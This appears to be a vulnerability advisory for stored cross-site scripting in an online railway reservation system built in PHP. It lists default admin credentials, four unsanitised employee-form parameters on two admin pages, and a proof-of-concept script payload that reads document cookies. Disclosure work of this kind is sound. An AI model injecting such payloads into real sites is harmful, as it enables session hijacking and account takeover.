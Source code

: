 # Online Railway Reservation System
## Stored XSS on `/admin/admin-add-employee.php` and `/admin/admin-update-employee.php`

### Vendor Homepage:

```
https://codeastro.com/online-railway-reservation-system-in-php-with-source-code/
```

### Version:

```
V1.0
```

### Tested on:

```
PHP, Apache, MySQL
```

### Credentials:

```
http://localhost/ORRS-PHP/admin/emp-login.php
Email   : admin@mail.com
Password: codeastro.com
```

### Affected Page:

```
/admin/admin-add-employee.php
/admin/admin-update-employee.php
```

The parameter  `emp_fname` , `emp_lname` , `emp_nat_idno` and `emp_addr`  are being echoed directly into the HTML without proper sanitization or validation. This allows an attacker to inject arbitrary JavaScript code into the page, leading to XSS attacks.

``` PHP Code
# /admin/admin-add-employee.php

<input class="form-control" name="emp_fname" id="inputText3" type="text">
<input class="form-control" name="emp_lname" id="inputText3" type="text">
<input class="form-control" name="emp_nat_idno" id="inputText3" type="text">
<input class="form-control" name="emp_addr" id="inputText3" type="text">

# /admin/admin-update-employee.php

<input class="form-control" name="emp_fname" id="inputText3" type="text">
<input class="form-control" name="emp_lname" id="inputText3" type="text">
<input class="form-control" name="emp_nat_idno" id="inputText3" type="text">
<input class="form-control" name="emp_addr" id="inputText3" type="text">

```

### Proof of Concept:

Payload:

```
<script>alert(document.cookie)</script>

```


### Screenshot




